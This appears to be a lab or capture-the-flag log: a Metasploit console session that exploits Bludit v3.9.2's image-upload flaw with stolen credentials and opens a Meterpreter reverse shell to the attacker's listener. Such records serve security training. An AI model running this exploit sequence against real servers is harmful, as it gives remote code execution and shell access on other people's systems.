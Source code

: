 ```text
   Id  Name
   --  ----
   0   Bludit v3.9.2


msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain
BLUDITPASS => RolandDeschain
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER fergus
BLUDITUSER => fergus
msf5 exploit(linux/http/bludit_upload_images_exec) > set RHOSTS 10.10.10.191
RHOSTS => 10.10.10.191
msf5 exploit(linux/http/bludit_upload_images_exec) > set LHOST tun0
LHOST => tun0
msf5 exploit(linux/http/bludit_upload_images_exec) > set LPORT 44446
LPORT => 44446
msf5 exploit(linux/http/bludit_upload_images_exec) > show options

Module options (exploit/linux/http/bludit_upload_images_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   BLUDITPASS  RolandDeschain   yes       The password for Bludit
   BLUDITUSER  fergus           yes       The username for Bludit
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      10.10.10.191     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path for Bludit
   VHOST                        no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  44446             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Bludit v3.9.2

msf5 exploit(linux/http/bludit_upload_images_exec) > run

[*] Started reverse TCP handler on 10.10.15.57:44446 
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading zzYXCHGvEG.png...
[*] Uploading .htaccess...
[*] Executing zzYXCHGvEG.png...
[*] Sending stage (38288 bytes) to 10.10.10.191
[*] Meterpreter session 1 opened (10.10.15.57:44446 -> 10.10.10.191:57506) at 2020-08-08 22:30:06 -0400
[+] Deleted .htaccess

meterpreter >
```

